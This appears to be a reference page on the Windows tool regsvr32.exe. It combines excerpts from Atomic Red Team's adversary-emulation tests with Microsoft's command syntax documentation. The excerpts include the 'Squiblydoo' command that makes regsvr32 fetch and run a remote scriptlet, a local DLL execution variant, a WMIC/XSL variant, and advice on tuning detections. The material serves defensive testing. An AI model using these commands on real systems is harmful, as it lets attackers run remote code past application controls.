[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | \| url \| URL to hosted sct file \| Url \| https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct\| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | regsvr32.exe /s /u /i:#{url} scrobj.dll | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | ## Atomic Test #3 - Regsvr32 local DLL execution | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.010.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md) | IF "%PROCESSOR_ARCHITECTURE%"=="AMD64" (C:\Windows\syswow64\regsvr32.exe /s #{dll_name}) ELSE ( regsvr32.exe /s #{dll_name} ) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1220.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1220/T1220.md) | Another variation of this technique, dubbed “Squiblytwo”, involves using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript within an XSL file.(Citation: LOLBAS Wmic) This technique can also execute local/remote scripts and, similar to its [Regsvr32](https://attack.mitre.org/techniques/T1117)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) provided they utilize the /FORMAT switch.(Citation: XSL Bypass Mar 2019) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [apis-execution-frameworks.md](https://github.com/redcanaryco/atomic-red-team/blob/master/docs/apis-execution-frameworks.md) |  => {"name"=>"Regsvr32", "description"=>"Regsvr32.exe is a command-line program used to register and unregister | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [apis-execution-frameworks.md](https://github.com/redcanaryco/atomic-red-team/blob/master/docs/apis-execution-frameworks.md) |  object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. Regsvr32.exe can | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [apis-execution-frameworks.md](https://github.com/redcanaryco/atomic-red-team/blob/master/docs/apis-execution-frameworks.md) |  be used to execute arbitrary binaries. (Citation: Microsoft Regsvr32)\n\nAdversaries may take advantage of this | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [testing.md](https://github.com/redcanaryco/atomic-red-team/blob/master/docs/testing.md) | In this example we will use Technique `T1117 "Regsvr32"` and Atomic Test `"Regsvr32 remote COM scriptlet execution"`. This particular  | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [testing.md](https://github.com/redcanaryco/atomic-red-team/blob/master/docs/testing.md) | The details of this test, [which are located here](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1117/T1117.md#atomic-test-2---regsvr32-remote-com-scriptlet-execution), | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [testing.md](https://github.com/redcanaryco/atomic-red-team/blob/master/docs/testing.md) | regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/src/RegSvr32.sct scrobj.dll | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [testing.md](https://github.com/redcanaryco/atomic-red-team/blob/master/docs/testing.md) | - You may detect network connections made by regsvr32.exe to an external IP. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [testing.md](https://github.com/redcanaryco/atomic-red-team/blob/master/docs/testing.md) | tuned. If you were to write your detection too broadly and “detect” every regsvr32.exe without any suppression, | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [testing.md](https://github.com/redcanaryco/atomic-red-team/blob/master/docs/testing.md) | only detects regsvr32.exe with the exact command line `/s /u /i` then all an attacker has to do is slightly | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)

## Additional Info*

**The information below is copied from [MicrosoftDocs](https://github.com/MicrosoftDocs/windowsserverdocs), which is maintained by [Microsoft](https://opensource.microsoft.com/codeofconduct/). Available under [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/) license.*

---

## regsvr32

Registers .dll files as command components in the registry.

### Syntax

```
regsvr32 [/u] [/s] [/n] [/i[:cmdline]] <Dllname>
```

#### Parameters

| Parameter | Description |
|--|--|
| /u | Unregisters server. |
| /s | Prevents displaying messages. |
| /n | Prevents calling **DllRegisterServer**. This parameter requires you to also use the **/i** parameter. |
| /i:`<cmdline>` | Passes an optional command-line string (*cmdline*) to **DllInstall**. If you use this parameter with the **/u** parameter, it calls **DllUninstall**. |
| `<Dllname>` | The name of the .dll file that will be registered. |
| /? | Displays help at the command prompt. |

#### Examples

To register the .dll for the Active Directory Schema, type:

```
regsvr32 schmmgmt.dll
```

### Additional References

- [Command-Line Syntax Key](https://github.com/MicrosoftDocs/windowsserverdocs/tree/master/WindowsServerDocs/administration/windows-commands/command-line-syntax-key.md)

---


MIT License. Copyright (c) 2020 Strontic.


